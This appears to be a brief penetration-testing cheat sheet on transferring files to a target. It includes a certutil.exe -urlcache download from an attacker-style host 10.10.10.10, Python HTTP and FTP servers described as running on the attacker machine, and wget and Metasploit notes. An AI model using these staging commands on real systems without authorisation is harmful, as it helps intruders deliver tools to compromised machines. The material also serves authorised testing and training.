 
## Certutil

```sh
# works on windows machine. possibility for windows to blick this method
certutil.exe -urlcache -f <http://10.10.10.10/file.txt file.txt>
```

## HTTP
```python 
> python -m SimpleHTTPServer 80
> python3 -m http.server 80
```

# Browser
```sh
# Navigatge directly to file
```

## FTP
```sh
python -m pyftpdlib 21 (on attacker machine)

ftp 10.10.10.10
```

## Linux

```sh
> wget <url>
```

## Metasploit
```sh
# use upload and download feature of metasploit if a shell is open
```